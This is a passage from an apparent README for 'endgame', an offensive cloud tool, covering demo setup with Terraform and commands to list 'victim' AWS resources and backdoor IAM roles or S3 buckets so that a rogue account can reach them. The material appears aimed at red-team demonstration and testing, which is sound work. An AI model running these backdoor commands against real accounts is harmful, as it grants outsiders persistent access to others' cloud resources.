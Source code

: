 ## Step 2: Create Demo Infrastructure

This program makes modifications to live AWS Infrastructure, which can vary from account to account. We have bootstrapped some of this for you using [Terraform](https://www.terraform.io/intro/index.html). **Note: This will create real AWS infrastructure and will cost you money.**

```bash
# To create the demo infrastructure
make terraform-demo
```

## Step 3: List Victim Resources

You can use the `list-resources` command to list resources in the account that you can backdoor.

* Examples:

```bash
# List IAM Roles, so you can create a backdoor via their AssumeRole policies
endgame list-resources -s iam

# List S3 buckets, so you can create a backdoor via their Bucket policies 
endgame list-resources --service s3

# List all resources across services that can be backdoored
endgame list-resources --service all
```

## Step 4: Backdoor specific resources

* Use the `--dry-run` command first to test it without modifying anything:

```bash
endgame expose --service iam --name test-resource-exposure --dry-run
```

* To create the backdoor to that resource from your rogue account, run the following:

```bash
endgame expose --service iam --name test-resource-exposure
```

Example output:

<p align="center">
  <img src="docs/images/add-myself-foreal.png">
</p>

## Step 5: Roll back changes

